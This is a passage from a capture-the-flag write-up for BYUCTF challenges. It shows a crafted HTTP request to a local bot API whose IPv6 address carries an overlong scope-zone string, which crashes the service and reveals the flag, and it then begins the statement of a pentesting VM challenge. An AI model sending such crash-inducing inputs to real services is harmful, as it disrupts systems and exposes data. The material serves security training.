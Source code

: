 ````sql
Great, now let's try to create a new bot but with an ipv6 using a scope zone index of a big random strings of characters.

```js
POST /api/bots HTTP/1.1
Host: 127.0.0.1:40010
...
Content-Type: application/json
Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX2lkIjoxLCJpc19zdGFmZiI6ZmFsc2V9.G7eNHWV71md6EUPEm9cKqnkbAjN2oV30dJGWO7bUSJM
Content-Length: 174

{
	"os":"Linux",
	"ip_address":"fe80::1ff:fe23:4567:890a%3thisismysuperipv6addressandihopetoretrievetheflagbythiswaysoiwritesomeshittomakeitmorefunsincethecrashoccure"
}

```

![18-Crash](https://github.com/V0lk3n/V0lk3n.github.io/assets/22322762/f8767cf2-cc86-4073-b252-446d66ba5cbc)

We managed to make it crash! 

Now let's look for our flag into the RAW output of the result window in Burp Suite.

![19-Flag_5](https://github.com/V0lk3n/V0lk3n.github.io/assets/22322762/3b39c884-dd1c-424f-96f1-1eb498abbd6a)

And we got the flag!

Flag : **byuctf{IPv6_scopes_are_just_arbitrary_strings...maybe_there_are_more_vulns_worldwide?}**


## Pentesting<a name="Pentest"></a>

## Mi6configuration - 1<a name="Mi6-1"></a>

Value : **418pts**

Difficulty : **Medium**

Author : **Rikroot**

Description :

```
We recently acquired a computer at MI6 and it seems like they might have made some mistakes. Can you hack it using their misconfigurations and get all their important data? (Download the VM file and power it on. Find the IP address and start hacking!)

The password to decrypt the volume is the first name of the James Bond character "Q" (all lowercase).

_Note - there are 3 flags, flag2 does not exist_

Submit flag1 here.

[https://byu.app.box.com/s/kqlgq3h7t43jqm7k0q124a1eivkonqln](https://byu.app.box.com/s/kqlgq3h7t43jqm7k0q124a1eivkonqln)
```

### Solution
````